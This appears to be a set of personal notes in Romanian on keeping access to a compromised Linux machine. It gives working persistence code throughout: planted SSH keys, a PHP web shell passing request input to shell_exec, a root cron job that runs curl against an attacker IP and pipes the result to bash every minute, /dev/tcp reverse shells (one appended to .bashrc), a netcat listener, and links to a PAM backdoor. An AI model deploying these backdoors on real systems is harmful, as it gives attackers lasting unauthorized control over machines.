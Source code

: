 ## SSH
Generam cheile cu [[ssh-keygen]]:
```bash
ssh-keygen
```
Dupa generarea avem 2 chei publica si privata. Cea publica trebuie salvata in `.ssh` dupa putem sa ne conectam cu un [[ssh]] obisnuit.
```bash
ssh -i id_rsa root@127.0.0.1
```

## PHP
Tot ce este in directoriul `/var/www/html` este acesibil din browser.
```PHP
<?php  
    if (isset($_REQUEST['cmd'])) {  
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
    }  
?>
```
In felul dat putem sa salvam codul de mai sus si sa putem reveni la `shell`-ul nostru.

## CronJob
Fisierul unde sunt setate `/etc/crontab`
```bash
* * * * * root curl http://<yourip>:8080/shell | bash
```
Ne deschide un `shell` fiecare minuta. Fisierul shell trebuie sa arate in forma data.
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
Pentru a printe `shell`-ul utilizam:
```bash
nc -lvnp <port>
```

## .bashrc
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

## pam_unix.so
Resource used : [http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

Here is a GitHub repository containing a script automating this process of creating a backdoor: [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
More way: https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
